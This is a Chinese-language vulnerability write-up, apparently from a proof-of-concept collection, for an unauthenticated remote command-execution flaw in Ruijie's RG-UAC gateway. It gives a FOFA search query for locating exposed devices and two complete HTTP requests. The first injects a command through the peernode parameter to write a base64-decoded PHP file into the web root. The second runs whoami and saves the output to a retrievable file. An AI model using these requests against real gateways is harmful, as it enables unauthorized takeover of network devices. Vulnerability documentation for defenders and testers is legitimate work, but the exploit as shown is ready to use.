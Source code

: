 # 锐捷RG-UAC应用网关online_check.php前台RCE漏洞

### 一、漏洞描述
<font style="color:rgba(0, 0, 0, 0.9);">锐捷RG-UAC应用管理网关 online_check.php 接口处存在命令执行漏洞，未经身份认证的攻击者可执行任意命令控制服务器权限。</font>

### 二、影响版本
锐捷RG-UAC应用网关

### 三、资产测绘
fofa：app="Ruijie-RG-UAC"

特征：

![1708679452594-4ac22429-3b10-4a58-8ee3-d7d42244c115.png](./img/dW2Qo23Th4j1ct2P/1708679452594-4ac22429-3b10-4a58-8ee3-d7d42244c115-117320.png)

### 四、漏洞复现
访问该链接出现如下页面表示可能存在漏洞

```java
/view/vpn/autovpn/online_check.php
```

![1710431715996-8076fb25-cda8-46d5-98cc-ba2f96e1c4ad.png](./img/dW2Qo23Th4j1ct2P/1710431715996-8076fb25-cda8-46d5-98cc-ba2f96e1c4ad-365591.png)

```java
iii:0,hit:0 
```

通过以下poc写入文件

```java
GET /view/vpn/autovpn/online_check.php?peernode=%20|%20`echo%20PD9waHAgZWNobyAxMTEqMTExOyB1bmxpbmsoX19GSUxFX18pOyA/Pg==%20|%20base64%20-d%20%3E%20test.php` HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Sec-Ch-Ua: "Chromium";v="122", "Not(A:Brand";v="24", "Google Chrome";v="122"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Upgrade-Insecure-Requests: 1
```

![1710431853374-b1498b38-c30c-43f0-8893-fa8e7893337f.png](./img/dW2Qo23Th4j1ct2P/1710431853374-b1498b38-c30c-43f0-8893-fa8e7893337f-478863.png)

文件写入位置

```java
/view/vpn/autovpn/test.php
```

![1710431872991-5400bcfa-93cf-4df9-9e50-f00e5c241555.png](./img/dW2Qo23Th4j1ct2P/1710431872991-5400bcfa-93cf-4df9-9e50-f00e5c241555-640890.png)通过如下poc执行命令

```java
GET /view/vpn/autovpn/online_check.php?peernode=%20|%20`whoami%20>%201.txt` HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Sec-Ch-Ua: "Chromium";v="122", "Not(A:Brand";v="24", "Google Chrome";v="122"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Upgrade-Insecure-Requests: 1
```

![1710431969941-59a7fcd6-882f-425d-85e2-d70c10e71bba.png](./img/dW2Qo23Th4j1ct2P/1710431969941-59a7fcd6-882f-425d-85e2-d70c10e71bba-586973.png)

获取命令执行结果

```java
/view/vpn/autovpn/1.txt
```

![1710431991407-1d277e48-b876-4742-adcf-ca69ccb757d9.png](./img/dW2Qo23Th4j1ct2P/1710431991407-1d277e48-b876-4742-adcf-ca69ccb757d9-381585.png)



> 更新: 2024-06-24 11:42:29  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ektr1dwcngu6c0ct>